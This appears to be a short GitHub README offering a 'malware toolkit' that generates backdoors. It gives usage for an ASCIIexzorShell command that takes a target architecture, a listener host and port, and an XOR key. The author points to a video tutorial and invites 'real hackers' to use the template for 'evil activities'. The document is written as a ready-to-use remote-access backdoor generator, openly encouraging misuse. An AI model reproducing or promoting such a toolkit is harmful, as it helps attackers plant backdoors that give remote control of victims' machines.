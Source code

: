 # forgotten scripts

This backdoor is an old draft that I decided to share. Don't expect perfects results if you plan to us it "as it".

In order to use my malware toolkit you have first to install the ASCIIexzor suit. Once it has been done, you can run two scripts.

for backdooring purposes :
```bash
ASCIIexzorShell -a <target arch> -h <host listener> -p <listen port ( 1337 - 50000 )> [opt args][-v <varname> -k <xor key>]
```
for testing purposes : 
```bash
ASCIIexzorShell-Test -a <target arch> [opt args][-v <varname> -k <xor key>]
```

***note : the -k option is partially broken. It's possible to use a custom key but sometimes the backdoor doesn't work.***

My youtube video ( in french ) should give a clue how to use my malware toolkit. 

Of course, this draft is just for testing purpose. 
If you are a kind of "white hat" or something like this, It should be enough.

If on the contrary you are a real "hacker". You already know you can't rely on metasploit for evil activities but at least, my backdoor template should be a good starting :) 
